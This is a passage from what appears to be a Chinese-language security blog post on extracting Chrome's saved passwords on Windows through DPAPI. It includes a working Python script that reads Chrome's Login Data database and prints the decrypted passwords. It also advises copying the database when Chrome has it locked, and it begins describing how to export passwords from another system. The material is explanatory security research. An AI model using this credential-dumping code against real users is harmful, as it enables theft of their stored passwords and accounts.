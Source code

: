 参考地址：

https://msdn.microsoft.com/en-us/library/windows/desktop/aa380882(v=vs.85).aspx

#### (2)只有与加密数据的用户具有相同登录凭据的用户才能解密数据

也就是说，只能在当前用户的凭据下解密数据


解密的开源代码也有很多，这里给出一个示例：

```
from os import getenv
import sqlite3
import win32crypt
import binascii
conn = sqlite3.connect(getenv("APPDATA") + "\..\Local\Google\Chrome\User Data\Default\Login Data")
cursor = conn.cursor()
cursor.execute('SELECT action_url, username_value, password_value FROM logins')
for result in cursor.fetchall():
    password = win32crypt.CryptUnprotectData(result[2], None, None, None, 0)[1]
    print password
```

**注：**

调用win32crypt.CryptUnprotectData需要安装pywin32

下载地址：

http://sourceforge.net/projects/pywin32/files/pywin32/Build%20219/pywin32-219.win32-py2.7.exe


执行后，还原用户密码，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-1-25/3-2.png)

**注：**

如果Chrome正在运行，无法查询数据库文件Login Data，显示`sqlite3.OperationalError: database is locked`

综上，在实际导出的过程中，如果Chrome正在运行，需要先复制数据库文件，再尝试解密

## 0x04 如何导出另一系统下Chrome浏览器中保存的密码
---

参照CryptProtectData()的说明，地址如下：

https://msdn.microsoft.com/en-us/library/windows/desktop/aa380261(v=vs.85).aspx

> "Usually, the only user who can decrypt the data is a user with the
> same logon credentials as the user who encrypted the data.In addition,
> the encryption and decryption must be done on the same computer. "

是否可以断定，无法在另一系统下导出Chrome浏览器中保存的密码呢？

答案是否定的

Chrome密码还原工具chromepass提供了一个特别的功能： `Reading ChromePass passwords from external drive`
